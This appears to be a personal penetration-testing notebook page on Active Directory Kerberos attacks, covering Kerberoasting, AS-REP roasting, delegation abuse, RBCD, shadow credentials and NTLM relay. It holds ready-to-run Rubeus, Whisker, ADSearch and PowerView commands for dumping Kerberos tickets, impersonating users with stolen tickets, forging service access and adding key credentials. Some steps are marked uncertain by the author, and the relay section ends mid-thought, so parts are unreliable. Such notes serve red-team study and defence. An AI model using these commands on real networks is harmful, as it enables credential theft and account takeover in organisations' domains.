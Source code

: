 # Kerberoasting
- [[Impacket]]
- [[Rubeus]] (Windows)
- [[Hashcat]]
- [[PowerView]]

We can use GetUserSPNs from Impacket to get a TGT to crack with hashcat's mode 13100. Rubeus can be used for the same purpose from Windows. Both can be cracked with Hashcat -m 13100. Kerberoasting can also be performed across different domain with cross-domain trusts. This is especially useful for gaining access across an enterprise or gathering passwords that are not vulnerable in the current domain. 

# AS-REP Roasting
- [[Impacket]]
- [[Rubeus]]
AS-REP Roasting is possible if Kerberos pre-authentication is not enforced on user accounts. This is most likely enabled on Linux servers hosting services where Kerberos is not the ideal authentication solution, and disabling pre-auth greases the wheels significantly. 

# Unconstrained Delegation
Unconstrained delegation refers to the privilege afforded a service that is trusted to authenticate any other user to a service. This means that it retains the user's TGT in memory and is allowed in the AD privilege schema to impersonate them over the network. This is mostly bad because of the potential for ticket theft. 
```powershell
.\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname # Return a list of computers trusted for unconstrained delegation
```

```powershell
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:<ticket ID> /nowrap
.\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:<domain> /username:<username> /password:<password> /ticket:<Base64 ticket> # Impersonate the user with their ticket using your credentials
```

# Constrained Delegation
Constrained delegation only allows a computer to authenticate users to another specific service. 
- [[Mimikatz]]
- [[PowerView]]
- [[Kekeo]]
- [[BloodHound]]
- [[Rubeus]]

## Alternate Service Names
Kerberos does not validate the SPN that the ticket is being used to authenticate to, only the account name of the machine, which does not change between services. Using this, we can gain access to other services using one computer account name. 
```powershell
.\Rubeus.exe s4u /impersonateuser:<username> /msdsspn:<spn> /altservice:<service to authenticate to> /user:<computer account name> /ticket:<ticket> /nowrap
```

# Resource-Based Constrained Delegation (RBCD)
The two major prerequisites to pull off the attack are:
1. A target computer on which you can modify msDS-AllowedToActOnBehalfOfOtherIdentity.
2. Control of another principal that has an SPN.
```powershell
powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" } # Query domain for all computers that match the above criteria
```

# Shadow Credentials
Shadow credentials refers to the use of PKINIT for authentication. This is necessry for passwordless logins using smart cards or similar (i think). 
- [[Whisker]]
```powershell
Whisker.exe list /target:<domain controller (or computer?)> # Check for pre-existing credentials
Whisker.exe add /target:<DC or computer?> # Add a new credential
# Rubeus will provide an asktgt command for you to use here.
Whisker.exe clear # Clear all credentials (dangerous!)
Whisker.exe remove /target:<DC or computer?> /deviceid:<device ID from list> # Remove only one credential (safer)
```

Whisker can abuse both the Certificate Trust and Key Trust models of shadow credentials. This attack requires write access to the owner's domain object's `msDS-KeyCredentialLink` attribute. 

# NetNTLMv2 Relay Attack
Impossible with SMB and LDAP signing enabled. Allows MITMing of NetNTLMv2 authentication. This requires sufficient control or manipulation to coerce an authentication attempt to your spoofed service or server. NTLMRelayX can capture the data to be re-used to authenticate as the user authenticating to your relay server. Further, if this server is not running inside the environment. 
- [[Impacket]]
